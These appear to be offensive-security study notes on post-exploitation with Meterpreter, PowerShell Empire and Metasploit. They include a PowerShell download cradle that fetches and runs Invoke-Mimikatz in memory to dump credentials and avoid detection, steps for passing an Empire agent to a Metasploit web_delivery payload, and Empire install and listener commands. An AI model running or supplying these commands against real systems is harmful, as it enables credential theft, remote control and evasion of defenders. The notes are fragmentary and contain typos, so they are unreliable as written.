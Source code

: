 > once we execute the download cradle, we will receive the meterpreter session already


in meterpreter session:

	load powershell
	help = to show the options we have
	powershell_shell

```powershell
Get-Process | Where-Object {$_.ProcessName -match "iTunes"}
```

back to meterpreter:
```powershell
powershell_execute 'iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz'
```

> it has the advantage that operates in the powershell memory, helping us to stay undetected.


### sending Empire session to Metasploit
in msfconsole:
	exploit/multi/script/web_delivery
	set srvhost = kali ip
	set lhost = kali ip
	set target 2 = PSH *powershell
	run
	copy the URL of the payload 

in Empire:
	usemodule powershell/cpde_execution/invoke_metasploitpayload
	info
	set URL <paste the URL of the metasploit payload>
	set Agent 65CY4XEG
	execute
	// Now it should open a session in metasploit



## Empire Overview

### Install
- https://github.com/EmpireProject/Empire

```powershell
git clone <url>
cd Empire > cd setup > ./install.sh
```

### Handlers
```powershell
listeners
help
uselistener
userlistener <option of choice>
info = to show options
```
